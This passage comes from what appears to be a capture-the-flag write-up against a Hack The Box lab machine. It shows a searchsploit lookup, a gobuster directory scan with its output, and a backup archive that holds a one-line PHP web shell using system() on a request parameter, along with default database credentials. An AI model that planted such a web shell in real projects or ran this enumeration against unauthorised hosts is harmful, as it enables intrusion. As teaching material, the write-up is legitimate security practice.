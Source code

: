 
It is arbitrary file upload, but taking a quick look at it with `searchsploit
-x php/webapps/45267.py`, it requires auth.

#### Directory Brute Force

I’ll run `gobuster` against the site, and include `-x php` since I know the
site is PHP:

    
    
    root@kali# gobuster dir -u http://10.10.10.207 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -o scans/gobuster-root-small-php -t 30
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.207
    [+] Threads:        30
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Extensions:     php
    [+] Timeout:        10s
    ===============================================================
    2021/01/16 07:23:55 Starting gobuster
    ===============================================================
    /shop (Status: 301)
    /index.php (Status: 302)
    /backup (Status: 301)
    ===============================================================
    2021/01/16 07:25:32 Finished
    ===============================================================
    

#### Backup

`/backup` is directory-listable, serving a single file, `a.tar.gz`:

![image-20210116072744638](https://0xdfimages.gitlab.io/img/image-20210116072744638.png)

The archive contains a backup for the website. The source code shows the root
folder contains an interesting file, `.sh.php`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

This file isn’t on the host anymore, but perhaps was put up there when the box
was compromised.

I spent far too long looking for a config file that would contain the
password. I found a password for the database in `includes/config.inc.php`:

    
    
    // Database
      define('DB_TYPE', 'mysql');
      define('DB_SERVER', 'localhost');
      define('DB_USERNAME', 'root');
      define('DB_PASSWORD', 'changethis');
      define('DB_DATABASE', 'ecom');
      define('DB_TABLE_PREFIX', 'lc_');
      define('DB_CONNECTION_CHARSET', 'utf8');
      define('DB_PERSISTENT_CONNECTIONS', 'false');
    